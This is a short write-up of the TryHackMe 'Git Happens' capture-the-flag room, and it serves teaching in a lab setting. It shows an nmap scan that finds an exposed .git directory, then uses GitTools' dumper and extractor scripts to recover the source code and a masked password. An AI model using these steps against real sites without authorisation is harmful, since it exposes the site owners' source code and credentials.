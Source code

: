 ```yaml
---
title: "Git Happens - TryHackMe"
author: Ludovic COULON
date: 2020-08-21
hero: ./images/hero.png
excerpt: "Writeup for the Git Happens room"
---
```


[TryHackMe | Git Happens](https://tryhackme.com/room/githappens)

Boss wanted me to create a prototype, so here it is! We even used something called "version control" that made deploying this really easy!

Can you find the password to the application?

---

### Setup

```bash
└──╼ $ nmap -A -T4 10.10.58.41
```

```bash
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-git:
|   10.10.58.41:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Super Awesome Site!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As you can see the nmap scan found a ".git" repertory on the website, let's use some tools to get all the data.

[internetwache/GitTools](https://github.com/internetwache/GitTools)

<div className="Image__Medium">
	<img src="https://i.imgur.com/XXygrPA.png" alt="blog_image" />
</div>

```bash
└──╼ $ ./gitdumper.sh http://10.10.58.41/.git/ .
```

Once the dumper script get all the data let's use the extractor script to have all the source code.

<div className="Image__Medium">
	<img src="https://i.imgur.com/8DyZR2H.png" alt="blog_image" />
</div>

```bash
└──╼ $ ./extractor.sh ~/Desktop/TryHackMe/git-thm/GitTools/Dumper/ .
```

<div className="Image__Medium">
	<img src="https://i.imgur.com/a53y7oc.png" alt="blog_image" />
</div>

As you can see the script created some directory, let's see if the password is in there.

### **#1 Find the Super Secret Password**

<div className="Image__Medium">
	<img src="https://i.imgur.com/SzdvdmG.png" alt="blog_image" />
</div>

```bash
Th**_**_*_****_****_******_*******!
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://tryhackme-badges.s3.amazonaws.com/boperXD.png" alt="TryhackMeProfile" />
  </a>
</center>

